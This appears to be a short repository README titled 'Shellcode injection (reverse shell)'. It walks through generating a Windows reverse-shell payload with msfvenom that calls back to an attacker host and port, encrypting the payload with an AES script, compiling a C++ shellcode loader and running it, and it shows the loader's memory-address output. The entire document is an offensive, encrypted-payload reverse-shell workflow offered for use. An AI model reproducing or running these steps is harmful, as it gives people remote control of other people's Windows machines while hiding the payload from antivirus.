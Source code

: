 # Shellcode injection 
(reverse shell)

## Generate payload:
(attacker machine)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.134 LPORT=8989 > reverse.bin

## encrypt reverse.bin:
python2 aes_encrypt.py reverse.bin

## compile.bat:
compile.bat
reverse.cpp

## execute binary:
>reverse.exe
reverse_payload addr    : 0x000000812DAFF650
exec_mem addr        : 0x0000018A43D50000

Hit me 1st!


Hit me 2nd!

Reverse shell:
![reverse_shell](reverse_shell.png)

